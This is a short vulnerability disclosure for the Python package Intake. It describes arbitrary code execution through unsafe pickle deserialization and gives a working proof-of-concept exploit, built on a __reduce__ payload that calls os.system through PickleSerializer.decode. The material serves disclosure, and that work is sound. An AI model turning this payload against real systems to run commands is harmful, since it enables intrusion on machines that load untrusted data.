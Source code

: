 # Description
Intake is a lightweight package for finding, investigating, loading and disseminating data. 
* **Vulnerability description**
    untrusted loading of data by the pickle.load function leading to Arbitrary code execution.

# Proof of Concept
Run exploit.py
```
import os
import pickle
#os.system('pip install intake')
from intake.container import serializer
#payload formation
class ArbitraryCode:
    def __reduce__(self):
        cmd = ('xcalc')
        return os.system, (cmd,)
dumps = pickle.dumps(ArbitraryCode())
serializer.PickleSerializer.decode(dumps,dumps,dumps)
```
* `pip3 install intake`
* `python3 exploit.py`

